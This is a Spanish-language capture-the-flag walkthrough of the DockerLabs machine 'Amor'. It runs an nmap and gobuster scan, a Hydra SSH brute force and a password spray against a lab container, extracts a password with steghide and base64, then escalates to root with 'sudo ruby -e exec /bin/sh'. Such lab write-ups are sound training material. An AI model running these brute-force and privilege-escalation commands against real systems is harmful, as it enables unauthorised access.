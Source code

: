 ```yaml
---
title: Amor - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Romabri           | 


# Reconocimiento

Iniciamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo mediante Nmap.
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/ece935c3-cfd6-4aa6-8838-e708ea48cb33)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p 21,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/2beb18bf-6011-443b-9a80-5a4ccf098540)

# Exploración Web

La página web parece no ser completamente funcional y muestra algunos registros internos de la empresa.

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/72d1c95b-6d7f-458c-8752-be28ea0cf3a0)

Parece ser que la pagina solo contiene la pagina que tenemos delante. Si observamos podemos ver varios usuarios.

![image](https://github.com/user-attachments/assets/46d76278-8af7-4531-82bd-8d2cbe2c8af0)


## Fuerza bruta

Ya que hemos identificado varios usuarios en el reconocimiento previo, decidimos hacer fuerza bruta sobre el usuario **carlota** utilizando `Hydra`. Este usuario parece ser uno de los empleados visibles en la página.
```shell
hydra -l 'carlota' -P /usr/share/wordlists/rockyou.txt  ssh://172.17.0.2 -t 4
```
Después de ejecutar el ataque, encontramos las credenciales correctas para el usuario carlota.

![image](https://github.com/user-attachments/assets/fe49e702-2120-4f6d-8799-656d13d9ca72)

## Usuario carlota

Ya que hemos obtenido su contraseña accederemos por ssh a su usuario.
```bash
ssh carlota@172.17.0.2  
```
![image](https://github.com/user-attachments/assets/d00f55db-5113-4713-b261-5e458604de32)

Vamos a empezar a ver como podemos escalar , para ello empezamos con `sudo -l` pero parece que no tenemos permisos.
![image](https://github.com/user-attachments/assets/1a08d01e-dcc5-455a-89b5-0ecb12e02dc8)

Vamos a mirar que contiene su directorio , por si tiene algo oculto dentro de el

![image](https://github.com/user-attachments/assets/362e99fa-108f-4c33-8409-8e0e5d88844e)

El directorio `Desktop` el dueño es root y eso es raro ya que tenemos permisos es esa carpeta vamos a ver que contiene.

![image](https://github.com/user-attachments/assets/1cc32588-90bb-4dc6-91d0-6337300631e1)

Tenemos una imagen un poco extraña por lo que nos la pasaremos a nuestro equipo y veremos que contiene.

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg .
```
![image](https://github.com/user-attachments/assets/0d70ac83-e6ad-404d-8a3c-9d2ff78dc76e)


## Esteganografía

Vamos a ver si esa imagen contiene algo oculto.
```bash
steghide --extract -sf imagen.jpg
```

Nos pide una contraseña si no ponemos nada , nos descarga un archivo llamado `secret.txt`.

![image](https://github.com/user-attachments/assets/40f71b08-220c-401d-b9f4-04e624a98d87)

![image](https://github.com/user-attachments/assets/ffe4bff3-7d40-4b69-97e7-b36dc9ae37d6)

Al ver que contiene el archivo , por el `=` del final se podria pensar que esta encriptado en `base64`:

![image](https://github.com/user-attachments/assets/e209dc56-1120-4c42-99fb-e512c98cbfeb)

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

![image](https://github.com/user-attachments/assets/363d2829-23b3-4fa7-a72d-6467af2d9990)

Tenemos una contraseña lo que no sabemos es de que usuario , por lo que veremos que usuarios tenemos desde el usuario carlota.

![image](https://github.com/user-attachments/assets/f2d2615e-8c66-4ee1-be02-c5c29ee4888d)

Ya que tenemos esos tres usuarios los guardamos en `usuarios.txt`.

![image](https://github.com/user-attachments/assets/03a588ce-3ae8-41b3-9372-20a776d59723)

Y ahora con hydra comprobamos si esa contraseña es de algun usuario.

```bash
hydra -L usuarios.txt -p 'eslacasadepinypon' ssh://172.17.0.2 -t 5 
```
![image](https://github.com/user-attachments/assets/305eb2ee-8fd2-4bf7-993a-012674f92b68)

Como podemos ver esa contraseña es del usuario oscar.

## Usuario Oscar

![image](https://github.com/user-attachments/assets/8d71049c-33d7-4b49-9c6b-2d6b5f124a0f)

Hemos conseguido acceso al sistema con el usuario Oscar.
```bash
script /dev/null -c bash
```
![image](https://github.com/user-attachments/assets/cf4e0173-bcfe-42f4-a35d-0c908e1db525)

Si ejecutamos el comando sudo -l, vemos que podemos ejecutar `ruby` como `root`. Si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/).

![image](https://github.com/user-attachments/assets/2e89d1b4-25a0-4f41-9c1c-d650d8b151f3)

Para generar una shell como root debemos de poner lo siguiente:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Y ya seriamos `root`.

![image](https://github.com/user-attachments/assets/1d779177-ce61-4040-ba08-1729ec52e757)

